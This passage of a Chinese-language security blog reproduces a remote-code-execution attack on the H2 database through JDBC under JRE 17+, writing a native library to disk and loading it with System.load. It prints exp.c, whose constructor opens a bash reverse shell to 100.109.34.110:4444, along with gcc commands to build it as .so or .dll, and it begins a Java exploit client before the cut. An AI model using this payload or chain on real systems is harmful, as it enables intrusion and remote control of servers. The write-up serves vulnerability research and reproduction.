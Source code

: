 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250505153918375.png)

### JRE 17+

如果Jre17 +版本下呢？我们再来看上面三种利用方法：

1. CREATE TRIGGER + javascript：Java 自带的 Nashorn JavaScript 引擎已经在 Java 15 往后被删除
2. CREATE ALIAS + Groovy AST：大部分环境都不存在groovy依赖
3. CREATE ALIAS + Java：注意我们主页里指的JRE 17而不是JDK 17，JRE 17没用javac命令，不能通过RUNSCRIPT + CREATE ALIAS 语句动态编译 Java 源代码

不过H2 CREATE ALIAS可以调用位于 classpath 内的某个公共类的公共静态方法

https://h2database.com/html/features.html

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20250506131736954.png)

由此，X1r0z师傅给出了两种利用方式，而这两种思路在JDK 17+几乎是通用的

#### 写文件+System.load

1. 利用 File.createTempFile 创建临时文件
2. 利用 commons-io 的 FileUtils 分块写文件
3. 利用 commons-beanutils 的 MethodUtils 反射调用实例/静态方法
4. 利用 System.load 加载动态链接库

具体的涉及到的几个问题：为什么要用commons-io写文件而不用java自带的方法，为什么用commons-beanutils反射调用getAbsolutePath，和为什么不反射调用java.lang.Runtime.getRuntime().exec(cmd)的原因请见原文：https://exp10it.io/2024/03/solarwinds-security-event-manager-amf-deserialization-rce-cve-2024-0692/#%E5%8F%97%E9%99%90%E5%88%B6%E7%9A%84-jdbc-h2-rce

这里仅做一个对h2的复现

首先编写exp.c：

```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
    system("bash -c 'bash -i >& /dev/tcp/100.109.34.110/4444 0>&1'");
}
```

测试记得改成calc，Linux编译为so，windows编译为dll

```编译
# Linux amd64
gcc -shared -fPIC exp.c -o exp.so
# Windows x64
gcc -shared exp.c -o exp.dll
```

我这里为了通用，改成了java版本

```java
package org.h2jdbc;

import java.io.File;
import java.io.IOException;
import java.nio.file.Files;
import java.sql.Connection;
import java.sql.DriverManager;
import java.util.ArrayList;
import java.util.List;

public class H2database_JDBC_Client {
    public static void main(String[] args) throws Exception {
        String ClassName = "org.h2.Driver";
```